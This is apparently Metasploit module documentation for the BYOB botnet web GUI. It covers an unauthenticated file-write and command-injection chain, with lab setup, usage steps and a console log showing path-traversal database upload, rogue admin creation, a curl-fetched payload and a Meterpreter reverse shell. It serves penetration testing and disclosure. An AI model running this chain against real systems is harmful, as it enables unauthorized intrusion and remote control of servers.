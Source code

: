 ## Vulnerable Application

The BYOB (Build Your Own Botnet) web GUI is vulnerable to two severe vulnerabilities:

- **CVE-2024-45256**: Unauthenticated arbitrary file write leading to
privilege escalation by adding a new admin user in the SQLite database.
- **CVE-2024-45257**: Authenticated command injection on the payload generation page.

As of version 2.1.7, these vulnerabilities remain **unpatched**.

### Discoverer:
- **Chebuya**
- Source:
  - [Blog Post](https://blog.chebuya.com/posts/unauthenticated-remote-command-execution-on-byob/)
  - [PoC and Exploit](https://github.com/chebuya/exploits/tree/main/BYOB-RCE)

### Install

#### Version 2.1.7 Setup

To install BYOB and test the vulnerabilities locally:

```bash
git clone https://github.com/malwaredllc/byob.git
cd byob/web-ui
./startup.sh
python3 run.py
```

> **Note**: Avoid using Docker for this lab as BYOB itself uses Docker for building payloads.

These vulnerabilities were tested only from the host machine.

## Verification Steps

To reproduce the Remote Code Execution (RCE) exploit:

1. Start `msfconsole`.
2. Do: `use exploit/unix/webapp/byob_unauth_rce`.
3. Do: `set RHOSTS <ip>`.
4. (Optional) Do: `set USERNAME <username>`.
5. (Optional) Do: `set PASSWORD <password>`.
6. Do: `set RPORT <port>`.
7. Do: `set TARGETURI <path>`.
8. Do: `set SRVPORT <port>`.
9. Do: `set FETCH_SRVHOST <ip>`.
10. Do: `run`.

The module will attempt to exploit the vulnerabilities and execute remote code.

## Options

No options

## Scenarios

### BYOB 2.1.7 - Unauthenticated Remote Code Execution

This example uses `cmd/linux/http/x64/meterpreter_reverse_tcp` to gain a reverse shell.

```
msf6 exploit(unix/http/byob_unauth_rce) > options 

Module options (exploit/unix/http/byob_unauth_rce):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Password for new admin
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     80               yes       The target port (TCP)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   6000             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                    no        The URI to use for this exploit (default is random)
   USERNAME  admin            no        Username for new admin
   VHOST                      no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      roTvDomWxW       no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH       IuxQhs           no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix/Linux Command Shell



View the full module info with the info, or info -d command.

msf6 exploit(unix/http/byob_unauth_rce) > run http://192.168.1.36:5000
[*] Exploit running as background job 21.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/http/byob_unauth_rce) > 
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Using URL: http://192.168.1.36:6000/xK9IWU8ZxIpHV
[*] Payload is ready at /
[*] Generating malicious SQLite database.
[+] Database uploaded successfully to path: /proc/self/cwd/../../../../buildyourownbotnet/database.db
[+] Database uploaded successfully to path: /proc/self/cwd/../../../../instance/database.db
[+] Malicious database uploaded successfully.
[*] Registering a new admin user: admin:vZNqftVlFpmp
[+] Registered user !
[*] Logging in with the new admin user.
[+] Logged in successfully!
[*] Injecting payload via command injection.
[*] Received request at: / - Client Address: 192.168.1.36
[*] Sending response to 192.168.1.36 for /
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 9 opened (192.168.1.36:4444 -> 192.168.1.36:52382) at 2024-09-21 03:46:21 +0200

msf6 exploit(unix/http/byob_unauth_rce) > sessions 9
[*] Starting interaction with 9...

meterpreter > sysinfo 
Computer     : 192.168.1.36
OS           : LinuxMint 21.3 (Linux 5.15.0-121-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

In this scenario, the payload is injected into the vulnerable
`/api/payload/generate` endpoint, leading to command execution
on the target server.
The reverse shell connects back to Metasploit, providing remote access.
